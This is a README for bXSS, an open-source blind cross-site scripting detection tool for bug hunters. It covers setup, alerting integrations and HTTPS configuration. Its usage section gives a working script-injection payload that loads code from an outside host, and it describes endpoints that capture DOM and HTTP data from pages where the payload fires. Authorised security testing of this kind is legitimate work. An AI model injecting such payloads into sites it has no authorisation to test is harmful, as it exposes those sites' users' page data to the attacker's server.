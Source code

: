 # [bXSS](https://github.com/LewisArdern/bXSS)

<!-- prettier-ignore-start -->
<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>
<!-- prettier-ignore-end -->

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Github](./Images/github.JPG)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Necessary

- Server you control
- Usable domain
- Node.js and Express.js

## Optional

- [Gmail](https://gmail.com)
- [Twilio Account](https://www.twilio.com/sms)
- [Slack Token](https://api.slack.com/docs/token-types)
- [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
- [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token)
- [Github Access Token](https://github.com/settings/tokens)
- [Twitter Developer Account](https://developer.twitter.com/en/apply/user)
- [SSL/TLS Certificate](https://letsencrypt.org)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port.http = Port to run the Node.js app e.g 80
- Rename configExample.js to config.js

## Configuring Services

Services are optional, by default bXSS will save a markdown file to disk. If you don't want to use any service documented below, just delete the service from the config.

- Twilio
  - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
  - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
  - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
  - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
- Slack
  - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
  - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
  - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
- Cisco
  - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
  - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
- Discord
  - Steps to create a bot:
    - Visit https://discordapp.com/developers/applications/
    - Create a new application (e.g bXSSForCompany)
    - Make a note of your CLIENT ID
    - Select 'Bot'
      - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
    - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
    - Select the server you want your bot to join and authorize
    - Update the following values below for the bot to post to the 'text channel' e.g ('general')
  - config.discord.token = 'your bot token'
  - config.discord.channel = 'channel you want it to join, e.g general'
- Twitter
  - config.twitter.consumer_key = API Key
  - config.twitter.consumer_secret = API Secret Key
  - config.twitter.access_token_key = Application Access Token
  - config.twitter.access_token_secret = Application Access Token Secret
  - Permissions (Write)
  - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
- Gmail
  - config.gmail.user = Gmail Username
  - config.gmail.pass = Gmail Password
  - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
  - config.gmail.from = Who sent the message, usually Gmail Username
- Github
  - [config.github.accessToken](https://github.com/settings/tokens) = ''
  - config.github.repo = '' an example is lewisardern/bXSS

## Setting Up HTTPS

Consider using a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv), but if you want to configure HTTPS using express, follow the steps below:

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
    - config.port.https = 443

## Starting The Application

Once you have configured the above, simply start the server with any available utility at the application root directory:

- node app.js
- nodemon app.js
- pm2 start app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
